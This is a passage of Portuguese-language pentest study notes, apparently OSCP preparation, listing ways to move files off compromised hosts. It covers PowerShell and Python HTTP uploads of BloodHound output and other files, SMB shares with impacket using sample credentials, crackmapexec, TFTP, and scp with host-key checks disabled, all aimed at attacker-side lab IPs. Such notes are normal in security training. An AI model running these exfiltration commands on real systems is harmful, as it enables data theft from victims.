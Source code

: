     (new-object system.net.webclient).uploadfile('http://192.168.49.120/20220915120636_BloodHound', '20220915120636_BloodHound')

### python

    python3 -c 'import requests; import os; filename="test.txt"; length=os.path.getsize(filename); requests.put("http://127.0.0.1:8000/"+filename, data=open(filename, "r").read(length))'


## SMB

    cp vulns.csv \\192.168.0.253\share\vulns.csv

 OBS: não esquecer de colcoar a flag "smb2support" no comando
 
     impacket-smbserver -smb2support share .

Vale considerar que em alguns casos é necessário utilizar senhas para acesso a compartilhamento de arquivos. Nesse caso é necessário fazer o seguinte:

    net use \\10.10.14.4\smb /user:teste Test@123
    copy \\10.10.14.4\smb\PowerUp.ps1 pu.ps1

No caso do servidor fica:

    impacket-smbserver -smb2support -username teste -password Test@123 smb .

### crackmapexec

    crackmapexec smb 172.16.251.152 -u user -p pass --put-file /tmp/whoami.txt \\Windows\\Temp\\whoami.txt
     
## TFTP

Não vem instalado nos sistemas operacinoais do windows 7 para cima
Somente windows XP, 2003 para baixo:

    tftp -i 10.11.0.4 put important.docx
    
## SSH
    
    scp -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" powershell-uploads acosta@192.168.119.165:/home/acosta/powershell-uploads
    
    
    $client.uploadfile('http://192.168.119.165/powershell-uploads','put', 'powershell-uploads')
    
    invoke-webrequest http://192.168.119.165:8000/upload -Method PUT -infile powershell-uploads -contenttype application/octet-stream
    
    scp -o "StrictHostKeyChecking=no" -o "UserKnownHostsFile=/dev/null" try-harder-ftp-service acosta@192.168.119.165:/home/acosta/
    
    scp -o "StrictHostKeyChecking=no" -o "UserKnownHostsFile=/dev/null" try-harder-ftp-service acosta@192.168.119.165:/home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/oscp/ftphome